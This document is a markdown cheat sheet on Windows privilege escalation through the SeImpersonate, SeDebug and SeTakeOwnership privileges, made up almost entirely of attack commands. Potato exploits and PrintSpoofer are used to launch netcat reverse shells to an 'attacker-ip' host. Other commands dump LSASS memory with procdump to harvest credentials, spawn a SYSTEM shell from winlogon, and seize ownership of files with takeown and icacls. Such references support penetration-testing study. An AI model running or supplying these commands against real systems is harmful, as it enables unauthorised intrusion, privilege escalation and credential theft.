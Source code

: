 ## Windows User Privileges

### SeImpersonate/SeAssignPrimaryToken
> Allows impersonation of tokens - can be exploited with Potato attacks

```powershell
# Check if you have the privilege
whoami /priv

# For Windows Server 2016 & below
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe attacker-ip 4444 -e cmd.exe" -t *

# For Windows Server 2019 & Windows 10 (1809+)
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe attacker-ip 4444 -e cmd"
c:\tools\RoguePotato.exe -r attacker-ip -e "c:\tools\nc.exe attacker-ip 4444 -e cmd.exe" -l 9999
```

### SeDebugPrivilege
> Allows attaching to and debugging processes - can dump LSASS or inject into processes

```powershell
# Enable the privilege if disabled
Import-Module .\Enable-Privilege.ps1
Enable-Privilege -Name "SeDebugPrivilege"

# Dump LSASS for credentials
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# RCE as SYSTEM
$system_pid = Get-Process winlogon | Select -ExpandProperty Id
[MyProcess]::CreateProcessFromParent($system_pid,"cmd.exe","")
```

### SeTakeOwnershipPrivilege
> Allows to take ownership of any securable object

```powershell
# Enable the privilege
Enable-Privilege -Name "SeTakeOwnershipPrivilege"

# Take ownership of a file
takeown /f "C:\path\to\file.txt"

# Modify permissions to gain full access
icacls "C:\path\to\file.txt" /grant username:F
```
